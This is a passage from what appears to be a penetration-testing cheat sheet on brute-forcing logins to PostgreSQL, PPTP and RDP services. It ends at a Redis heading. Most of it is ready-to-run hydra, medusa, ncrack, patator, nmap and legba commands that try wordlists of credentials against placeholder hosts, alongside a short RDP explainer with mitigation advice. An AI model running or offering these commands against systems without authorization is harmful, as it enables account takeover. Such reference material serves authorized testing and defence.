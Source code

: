 > Note: Brute force attacks are illegal and should only be performed with proper authorization and for legitimate purposes, such as penetration testing.
```bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
legba pgsql --username admin --password wordlists/passwords.txt --target localhost:5432
```
### PPTP

You can download the `.deb` package to install from [https://http.kali.org/pool/main/t/thc-pptp-bruter/](https://http.kali.org/pool/main/t/thc-pptp-bruter/)
```bash
sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```
### RDP

RDP (Remote Desktop Protocol) is a proprietary protocol developed by Microsoft that allows users to remotely access and control a computer over a network. It is commonly used for remote administration and troubleshooting purposes.

#### Brute-Force Attacks on RDP

Brute-force attacks on RDP involve systematically trying all possible combinations of usernames and passwords until the correct credentials are found. This is done by using automated tools that can rapidly attempt multiple login attempts.

To perform a brute-force attack on RDP, you can use tools like Hydra, Crowbar, or RDPY. These tools allow you to specify a list of usernames and passwords, and they will automatically try each combination until a successful login is achieved.

It is important to note that brute-force attacks are highly resource-intensive and time-consuming. They can also be easily detected by intrusion detection systems (IDS) and can result in the attacker being blocked or banned.

To mitigate the risk of brute-force attacks on RDP, it is recommended to:

- Use strong and complex passwords that are not easily guessable.
- Implement account lockout policies that temporarily lock an account after a certain number of failed login attempts.
- Enable network-level authentication (NLA) for RDP, which requires users to authenticate before establishing a remote desktop session.
- Use a virtual private network (VPN) to secure RDP connections and restrict access to trusted IP addresses.

By following these best practices, you can significantly reduce the risk of successful brute-force attacks on RDP.
```bash
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
legba rdp --target localhost:3389 --username admin --password data/passwords.txt [--rdp-domain <RDP_DOMAIN>] [--rdp-ntlm] [--rdp-admin-mode] [--rdp-auto-logon]
```
### Redis
